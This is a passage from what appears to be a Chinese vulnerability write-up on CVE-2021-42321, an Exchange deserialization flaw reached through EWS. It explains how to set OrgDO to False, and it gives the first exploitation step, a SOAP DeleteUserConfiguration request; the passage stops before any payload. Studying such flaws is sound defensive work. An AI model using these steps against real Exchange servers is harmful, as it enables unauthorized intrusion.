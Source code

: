 最终可以通过`ews`的`GetClientAccessToken`操作来触发反序列化。

## 漏洞利用

在构造`CreateUserConfiguration`请求数据`xml`文件的时候，需要注意对于`inbox`文件夹，在获取用户配置的时候，默认读取的是名为`ExtensionMasterTable`的配置信息，而原来的默认配置下文件夹`OrgDO`的值为`True`，所以在接下来的流程中不会进行反序列化。

![](../img/CVE-2021-42321/OrgDO.png)

所以我们构造`xml`数据的时候，把`OrgDO`设置为`False`即可。

![](../img/CVE-2021-42321/dictionary.png)


首先需要删除默认的配置信息
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Header>
    <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
    <m:DeleteUserConfiguration>
        <m:UserConfigurationName Name="ExtensionMasterTable">
        <t:FolderId Id="{folderId}" ChangeKey="{changeKey}" />
        </m:UserConfigurationName>
    </m:DeleteUserConfiguration>
    </soap:Body>
</soap:Envelope>
```
